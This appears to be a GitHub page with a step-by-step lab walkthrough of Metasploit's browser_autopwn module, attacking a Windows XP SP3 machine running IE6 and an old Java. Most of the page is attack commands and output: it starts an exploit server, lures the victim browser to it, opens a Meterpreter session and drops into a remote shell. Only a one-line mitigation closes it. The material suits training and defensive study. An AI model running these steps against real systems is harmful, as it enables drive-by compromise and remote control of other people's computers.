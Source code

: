 Metasploit Browser Autopwn – Windows XP SP3
**Attacker:** Kali Linux<br>
**Victim:** Windows XP SP3 (Java 6u25, IE6)<br>
<br>
##Step 1 – Starting the Browser Autopwn Server
Run msfconsole, load the browser_autopwn module and set all required options.<br>
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">root@kali:~$</font> <b>msfconsole</b><br>
<font color="silver">msf ></font> <b>use auxiliary/server/browser_autopwn</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set LHOST 192.168.1.12</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set SRVPORT 80</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>set URIPATH /</b><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font> <b>run</b><br>
<br>
<font color="silver">[*] Starting exploit modules on host 192.168.1.12...</font><br>
<font color="silver">[*] Server started.</font>
</div>
</code>
The Browser Autopwn Server is now running and waiting for victims to browse to the url http://192.168.1.12<br>
##Step 2 – Pwning the Victim
On your Windows XP test machine (victim), browse to http://192.168.1.12.<br>
This will trigger the browser_autopwn module to serve the appropriate exploit and launch a meterpreter session.<br>
<code>
<div style="background-color: black; color: white; padding: 20px;">
<font color="silver">[*] Meterpreter session 1 opened (192.168.1.12:7777 -> </font><br>
<font color="silver">192.168.1.13:1045) at 2015-07-25 05:08:06 -0400</font><br>
<font color="silver">...</font><br>
<font color="silver">msf auxiliary(browser_autopwn) ></font><b> sessions -i 1</b><br>
<font color="silver">[*] Starting interaction with 1...meterpreter ></font><b> shell</b><br>
<font color="silver">Microsoft Windows XP [Version 5.1.2600]</font><br>
<font color="silver">(C) Copyright 1985-2001 Microsoft Corp.C:\Documents and Settings\IEUser\Desktop></font><b>echo %USERNAME%</b><br>
<font color="silver">Victim</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><b>ipconfig</b><br>
<font color="silver">Windows IP Configuration</font><br>
<br>
<font color="silver">Ethernet adapter Local Area Connection:</font><br>
<br>
<font color="silver">Connection-specific DNS Suffix . : Home</font><br>
<font color="silver">IP Address. . . . . . . . . . . . : 192.168.1.13</font><br>
<font color="silver">Subnet Mask . . . . . . . . . . . : 255.255.255.0</font><br>
<font color="silver">Default Gateway . . . . . . . . . : 192.168.1.1</font><br>
<br>
<font color="silver">C:\Documents and Settings\IEUser\Desktop></font><br>
</div>
</code>
You now have shell access to the Windows XP SP3 Victim with the same access as the user who navigated to the exploit url.<br>
##Solution
Keep your software fully updated (e.g. Windows, Web Browsers, Java, etc…) and uninstall unused applications.

Tags: metasploit
